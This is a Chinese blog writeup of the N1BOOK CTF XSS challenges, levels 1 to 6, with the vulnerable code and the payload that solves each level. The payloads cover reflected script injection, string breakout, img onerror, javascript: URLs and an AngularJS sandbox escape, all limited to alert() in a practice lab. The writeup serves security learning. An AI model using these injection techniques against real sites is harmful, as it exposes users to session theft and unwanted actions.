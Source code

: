 ```yaml
---
title: N1BOOK of web XSS闯关 writeup
date: 2022-04-13 14:07:00
updated: 2022-04-13 16:04:00
tags: [ctf,security,<<从0到1：CTFer成长之路>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录 N1BOOK of web 死亡ping命令 writeupcahttps://blog.csdn.net/qq_45414878/article/details/109672659
---
```


## Level 1

```
/level1?username=<script>alert()<script>
```

最简单的反射型xss 在url传参中做利用。

官方wp中给出的`/level1?username=xss%3Csvg/onload=alert()`看不懂而且我也没法用这个payload打通...挺迷的，大概意思应该是插入一个svg，然后在svg里面写个onload事件触发alert吧。

## Level 2

还是先尝试一下最简单的xss，发现不行，然后查看一下源码

```javascript

    	if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = 'xss';
    	document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
    
```

传入的username参数被escape函数编码了，escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。 该方法不会对ASCII 字母和数字进行编码，也不会对下面这些ASCII 标点符号进行编码： * @ - _ + . / 。 其他所有的字符都会被转义序列替换。

escape把字符串编码后，那就不会把传入内容直接当js执行了，所以说之前的办法行不通，但是不代表不能XSS，这里漏洞产生的原因是username这个js中的变量受用户直接控制且只有escape这个编码过滤，我们传入`?username=';</script><script>alert()</script>//`，这样js会执行

```javascript
<script type="text/javascript">
var username = '';</script><script>alert()</script>//';
</script>
```

先用一个引号闭合username，然后再用一个`</script>`和前面的`<script>`闭合，后面插入script标签就可以执行任意js函数了。

官方解法是`?username='-alert()`，其实差不多的解法，但是不太懂`-`是什么意思，不过把`-`换成`;`后也可以打通。

## Level 3

```js

    	if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = 'xss';
    	document.getElementById('ccc').innerHTML= "Welcome " + username;
    
```

这里把escape取消了其他啥也没变？？

我用我自己Level 2中的payload也可以成功打通，但是level 2官方的payload在level 3中不适用，这个没搞懂为啥。

因为把escape取消了所以下面innerHTML中的拼接也有了可以利用的地方，这里可以插入一些html中的标签来达成xss的效果。

官方wp中插入了img标签，学习一下他的做法，`?username=xss<img src=x onerror=alert()>`其实是一种利用img标签的onerror属性进行xss的常见做法。

onerror是一个js事件，当图片不存在时会触发，所以只要src属性找不到对应图片，写在onerror中的js语句就可以得以执行。

## Level 4

```js

    	var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
    
```

这里也比较明显，接收jumpUrl参数，并且将参数拼接进innerHTML，导致xss注入

但是这里jumpUrl有escape字符串编码再拼接进去，所以这里的利用需要使用javascript伪协议来执行，由于这里有url跳转，传入参数会被拼在url里面，在浏览器打开javascript：URL的时候，它会先运行URL中的代码，当返回值不为undefined的时候，前页链接会替换为这段代码的返回值，payload：`?jumpUrl=javascript:alert()`

## Level 5

```js

    	if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{
    		
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
    
```

发现代码首先接收get请求参数autosubmit，如果不是false就继续执行，然后接收get请求参数action，如果接收到action参数就读action参数并且提交表单，利用javascript伪协议可以在提交的表单中执行任意js代码。

payload：`?action=javascript:alert()&autosubmit=1`

## Level 6

>参考：
>
>https://juejin.cn/post/6891628594725847047
>
>http://www.mdlabs.cn/index.php/2022/04/01/buuctf-n1book-xss%E9%97%AF%E5%85%B31-%E3%80%90xss%E5%B0%8F%E7%BB%93%E3%80%91/

这个题目比较复杂，首先是源代码里面直接看js是看不出来什么的，这里要利用Angular.js的模板注入来逃逸沙箱，达成XSS漏洞的利用。

先判断存在angular模板注入

![image-20220413155408133](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220413155408133.png)

![image-20220413155324232](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220413155324232.png)

只从做题的角度来看的话，找一下angular 1.4.6的payload，直接就打通了

从https://juejin.cn/post/6891628594725847047#heading-8中，`?username={{x={y:''.constructor.prototype}; x.y.charAt=[].join; [1]|orderBy:'x=alert(1)}}'`，直接打通，flag到手啦

然后我们来研究一下AngularJS的模板注入，主要看这篇文章https://juejin.cn/post/6891628594725847047#heading-8

真看不懂....麻了，找个时间认真研究一下吧



